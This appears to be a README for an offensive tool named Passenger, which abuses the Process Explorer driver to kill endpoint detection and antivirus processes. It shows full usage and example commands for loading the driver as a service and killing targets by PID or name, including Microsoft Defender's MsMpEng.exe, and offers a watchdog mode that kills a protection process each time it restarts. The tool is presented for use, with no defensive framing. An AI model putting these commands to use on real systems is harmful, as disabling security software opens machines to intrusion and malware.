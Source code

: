 Utilizing Proccess Explorer Driver to kill EDR's.

The tool has 2 modes:
  1. Kill the EDR's process.
  2. Kill the EDR's process and keep watching if the process up again, if does - kill it.
 
 ```batch
C:\> C:\Users\Windy\source\repos\Passenger\x64\Release\Passenger.exe

Usage: Passenger.exe { /install <DRIVER_FILE_FULL_PATH> || /service <SERVICE_NAME>} {/pid <PID> || /name <PROCNAME.exe>} [/watchdog]

=== Help ===
/install - Full Path to the Driver file to be install.
/service -
        With /install - Arbitrary name for the new service
        Without /install - An existing service name (Will start the service if needed)
/pid - Target Process Id
/name - Target Process Name
/watchdog - Monitor the service, if it comes up again - kill it

=== Examples ===
[!] Load driver at C:\driver.sys as service with the name nonsense and kill process with id 123
Passenger.exe /install C:\driver.sys /service nonsense /pid 123

[!] Start the service nonsense and kill process with name MsMpEng.exe
Passenger.exe /service nonsense /name MsMpEng.exe

[!] Start the service nonsense and kill process with id 123. Keep monitor the process (By its name), kill it everytime it is up again
Passenger.exe /service nonsense /pid 123 /watchdog
```

# Credits
This tool is inspired by `Alejandro Pinna` and based on his amazing work https://github.com/waawaa/breakcyserver
